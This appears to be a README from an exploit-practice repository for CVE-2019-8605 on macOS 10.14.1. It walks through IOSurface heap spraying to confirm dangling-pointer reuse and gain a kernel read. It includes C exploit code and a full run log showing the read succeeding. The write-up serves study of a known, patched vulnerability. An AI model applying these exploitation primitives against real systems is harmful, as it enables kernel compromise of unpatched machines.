 # **IOSurface_kread_observe (CVE-2019-8605)**

## Environment

macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) needed)

## Description

This is similar to the previously written dangling_kptr_reuse repository, but slightly different.

**This repository performs kernel reads using an IOSurface heap-spraying technique.
Here, we check whether dangling pointers are actually reused, and what data ends up stored in the dangling pointers.**

Previously, when we read the README in the parent folder of the repository, we examined how data for spraying IOSurface is created under the title [“Using OSUnserializeBinary Format for IOSurface Heap Spraying”](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/README.md#using-osunserializebinary-format-for-iosurface-heap-spraying)

The data to be sprayed is loaded into the kernel by the `IOSurface_set_value` function.

To inspect the data loaded into the kernel, we initialize the IOSurface from user space and use the obtained mach_port to access the kernel kobject; from there we sequentially walk structure fields to reach the sprayed dictionary and then the OSArray.

If a dangling kernel pointer obtained from the socket_fd matches the address of an element in the sprayed OSArray, it means the dangling pointer was reused.

I wrote this to verify whether a pointer that I arbitrarily wrote the 8-byte kernel value `0xc0debabe13371338` to (via kwrite64) is read back by the `rk64_via_uaf` function that leverages the vulnerability, and to check whether the dangling pointer is actually reused among the sprayed kernel data.

```c
// obtain userdict from IOSurface
//Thanks @jmpews, https://gist.github.com/jmpews/01b520993a742f72714cd06e40793eed
uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xd0
	uint64_t userspaceValueDicts = kread64(surface + 0xd0);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}

bool is_our_sprayed_OSArray(uint64_t osarray) {
	uint32_t osarray_count = kread32(osarray + 0x20);	// 0x20 = p/x offsetof(OSArray, count)
	uint32_t osarray_capacity = kread32(osarray + 0x24);	// 0x24 = p/x offsetof(OSArray, capacity)
	
	if(osarray_count != 256)	return false;

	for(int i = 0; i < 256; i++) {
		uint64_t osdata_in_osarray = OSArray_objectAtIndex(osarray, i);
		uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
		if(kread64(kbuffer + offsetof(struct ip6_pktopts, ip6po_minmtu)) != 0x41424344) return false;

		//yes, it's our sprayed osarray!
		printf("our sprayed 192bytes OSArray[%d] = 0x%llx\n", i, kbuffer);

		for(int j = 0; j < sizeof(dangling_kptrs) / sizeof(uint64_t); j++) {
			if(kbuffer == dangling_kptrs[j]) {
				INFO("DANGLING KPTR REUSE DETECTED!!! OSArray[%d](0x%llx) == dangling_kptrs[%d](0x%llx)\n", i, kbuffer, j, dangling_kptrs[j]);
				khexdump(dangling_kptrs[j], 0xc0);
				break;
			}
		}
	}

	return true;
}

// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
		dangling_kptrs[i] = get_dangling_ip6_pktopts_kaddr(sockets[i]);
    }
 
	for (int i = 0; i < 128; i++) {
        INFO("dangling_kptr = 0x%llx; obtained from socket_fd=%d\n", dangling_kptrs[i], sockets[i]);
    }
...
	uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("userspaceValueDicts: 0x%llx\n", userspaceValueDicts);

	struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);

	int sprayed_osarray_found_count = 0;
    for (int i = 0; i < dict->count; i++) {
		if(is_our_sprayed_OSArray(dict->items[i].value)) {
			INFO("sprayed OSArray from dict[%u]: 0x%llx\n\n", i, dict->items[i].value);
			sprayed_osarray_found_count++;
		}
  }
	INFO("sprayed_osarray_found_count = %d\n", sprayed_osarray_found_count);
... 
    return buf;
}
```

If you run the actual code in the repository, among the sprayed dictionaries the second one had OSArray[47] pointing to the dangling `inp->in6p_outputopts` address.

The dangling address is **0xffffff802c0d7280**.

At [**0xffffff802c0d7280 + 0x010**] there is an 8-byte kernel address that we wrote intentionally.

Because the 0x10 offset field belongs to the ip6po_pktinfo field of `struct ip6_pktopts`, we can read 20 bytes from that address using the `get_pktinfo` function.

```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dcc7000
get_kbase ret: 0, kbase: 0xffffff801ce00000, kslide: 0x1cc00000
[*] IOSurface_init success, IOSurface_id=0x3
[*] surfRoot: 0xffffff802c4280e0
[*] surfClients: 0xffffff802deb0000
[*] surfClient: 0xffffff802c092e60
[*] surface: 0xffffff802b4fbc00
[*] kptr = 0xffffff80b0dbb000 -> kread64: 0xc0debabe13371338
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=3
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=4
...
[*] spray_IOSurface_call_count: 1
[*] userspaceValueDicts: 0xffffff8029396680
[*] dict 0xffffff8029396680, items 0xffffff80290ca240, count 33, capacity 36
our sprayed 192bytes OSArray[0] = 0xffffff802c0d5b40
our sprayed 192bytes OSArray[1] = 0xffffff802c0d5180
...
[*] sprayed OSArray from dict[1]: 0xffffff80293966c0

our sprayed 192bytes OSArray[0] = 0xffffff802932c480
our sprayed 192bytes OSArray[1] = 0xffffff802bbe7640
our sprayed 192bytes OSArray[2] = 0xffffff802bbe7100
...
our sprayed 192bytes OSArray[47] = 0xffffff802c0d7280
[*] DANGLING KPTR REUSE DETECTED!!! OSArray[47](0xffffff802c0d7280) == dangling_kptrs[0](0xffffff802c0d7280)
=============================
[0xffffff802c0d7280+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
**[0xffffff802c0d7280+0x010] 00 B0 DB B0 80 FF FF FF**  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x060] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x0a0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 00  |  ....DCBA........ 
[0xffffff802c0d7280+0x0b0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 DE  |  ....DCBA........ 
=============================
our sprayed 192bytes OSArray[48] = 0xffffff802dc05600
...
our sprayed 192bytes OSArray[255] = 0xffffff802dc0c3c0
[*] sprayed OSArray from dict[2]: 0xffffff8029396a00

...
[*] sprayed OSArray from dict[32]: 0xffffff8029346f80

[*] sprayed_osarray_found_count = 32
[*] rk64_via_uaf(kptr) = 0xc0debabe13371338
```